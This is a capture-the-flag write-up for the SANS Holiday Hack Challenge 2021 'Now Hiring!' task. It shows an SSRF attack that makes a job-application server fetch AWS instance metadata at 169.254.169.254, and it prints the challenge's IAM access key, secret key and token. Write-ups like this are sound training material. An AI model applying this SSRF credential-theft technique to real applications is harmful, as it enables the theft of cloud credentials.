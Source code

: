 # Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 10. Now Hiring!
### 10.0. Description
Difficulty: :christmas_tree::christmas_tree::christmas_tree:  
What is the secret access key for the [Jack Frost Tower job applications server](https://apply.jackfrosttower.com/)? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.

### 10.1. [Side Challenge - IMDS Exploration](/10.%20Now%20Hiring!/10.01%20IMDS%20Exploration/README.md)

### 10.2. Hints
**AWS IMDS Documentation** - *Noxious O. D'or*: “The AWS documentation for IMDS is interesting reading.”

#### 10.3. Solution
The application form allows the insertion of an URL under the name of “URL to your public NLBI report”:  
![Apply](imgs/00_Apply.png)

I gave the URL of a computer I own and observed the application was fetching the URL specified without much control:
```bash
root@debian:~/hiring# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 …
34.132.188.111 - - [06/Jan/2022 08:44:41] "GET / HTTP/1.0" 200 -
34.132.188.111 - - [06/Jan/2022 08:44:56] code 404, message File not found
34.132.188.111 - - [06/Jan/2022 08:44:56] "GET /non-existent HTTP/1.0" 404 -
34.132.188.111 - - [06/Jan/2022 08:46:56] "GET /test_test_test HTTP/1.0" 200 -
```

When the file does not exist (`non-existent`), the application is just accepted:  
![01_non-existent.png](imgs/01_non-existent.png)

In case the file exist (`test_test_test`), the application shows more data:
![02_existent.png](imgs/02_existent.png)

Inspecting the broken image link, it is possible to recognize it is returning the content of the test page:
```bash
root@debian:~/hiring# curl "https://apply.jackfrosttower.com/images/asd.jpg"
Hi, I'm a test file!
```

At that point it was pretty straightforward to go ahead and test with AWS URLs considering the side challenge.
Submitting the URL http://169.254.169.254/latest/meta-data/iam/security-credentials I retrieved the `jf-deploy-role` user.
Submitting the URL http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role:
```json
{
  "Code": "Success",
  "LastUpdated": "2021-05-02T18:50:40Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
  "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
  "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
  "Expiration": "2026-05-02T18:50:40Z"
}
```

As the challenge required the `SecretAccessKey`, it is `CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX`.

#### 10.4. Thank you for the proxy
![meme](imgs/03_meme.png)

---
## [2. Where in the World is Caramel Santiaigo?](imgs/README.md)
## [2.1. Side Challenge - Exif Metadata](imgs/README.md)
## [3. Thaw Frost Tower's Entrance](imgs/README.md)
## [3.1. Side Challenge - Grepping for Gold](imgs/README.md)
## [4. Slot Machine Investigation](imgs/README.md)
## [4.1. Side Challenge - Logic Munchers](imgs/README.md)
## [5. Strange USB Device](imgs/README.md)
## [5.1. Side Challenge - IPv6 Sandbox](imgs/README.md)
## [6. Shellcode Primer](imgs/README.md)
## [6.1. Side Challenge - Holiday Hero](imgs/README.md)
## [7. Printer Exploitation](imgs/README.md)
## [7.0. Description](imgs/README.md)
## [8. Kerberoasting on an Open Fire](imgs/README.md)
## [8.1. Side Challenge - HoHo … No](imgs/README.md)
## [9. Splunk!](imgs/README.md)
## [9.1. Side Challenge - Yara Analysis](imgs/README.md)
## [10. Now Hiring!](imgs/README.md)
## [10.1. Side Challenge - IMDS Exploration](imgs/README.md)
## [11. Customer Complaint Analysis](imgs/README.md)
## [11.1. Side Challenge - Strace Ltrace Retrace](imgs/README.md)
## [12. Frost Tower Website Checkup](imgs/README.md)
## [12.1. Side Challenge - The Elf C0de Python Edition](imgs/README.md)
## [13. FPGA Programming](imgs/README.md)
## [13.1. Side Challenge - Frostavator](imgs/README.md)
## [14. Bonus! Blue Log4Jack](imgs/README.md)
## [15. Bonus! Red Log4Jack](imgs/README.md)
---
## [0. windovo\\thedead> whoami](imgs/../README.md)
## [1. KringleCon Orientation](imgs/01.%20KringleCon%20Orientation/README.md)
## [16. That’s how Jack came from space](imgs/../README.md#16-thats-how-jack-came-from-space)
## [17. Narrative](imgs/../README.md#17-narrative)
## [18. Conclusions](imgs/../README.md#18-conclusions)